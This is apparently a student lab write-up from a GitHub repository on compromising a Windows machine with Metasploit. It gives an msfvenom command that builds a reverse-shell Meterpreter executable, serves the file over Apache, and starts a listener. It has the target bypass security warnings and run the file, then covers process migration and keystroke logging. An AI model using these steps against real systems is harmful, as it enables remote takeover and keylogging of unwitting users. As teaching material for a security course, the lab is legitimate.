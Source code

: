 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/user-attachments/assets/b4fed159-5971-41f2-b1bf-c6eb03319f44)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/user-attachments/assets/11ef69be-b46b-4214-b2c9-c4ca96f9edae)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:

![image](https://github.com/user-attachments/assets/f54131ee-bc01-4fd2-89a6-d6e54ee82b5d)

Check the status of apache2

## OUTPUT:

![image](https://github.com/user-attachments/assets/932472df-eec9-41e9-9dd1-746a58e3fb34)

Invoke msfconsole:

## OUTPUT:

![image](https://github.com/user-attachments/assets/d44f4801-82e5-4729-a5da-5e71bc3f0d00)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/e5877fb1-8005-47fa-9b17-050330047cde)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/78b39412-cbf4-4bfc-a629-0d7efa9b6328)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/addfb2a1-0df1-4b75-b0de-03c7c586de43)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/8bd954e5-dd06-4212-821a-8c6631c2cc36)

On kali give the command exploit

![image](https://github.com/user-attachments/assets/d77517be-742e-4a67-9175-58b419f931f9)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/529d7e7b-bfc9-469d-b281-1686ae158b79)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/f9fba292-832b-4291-8937-f2073d72b35a)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/5c0a54fa-edbb-4f1b-9ef7-42bf8af71711)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/c4145c9f-abdf-41ef-80a0-f61615ebe909)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
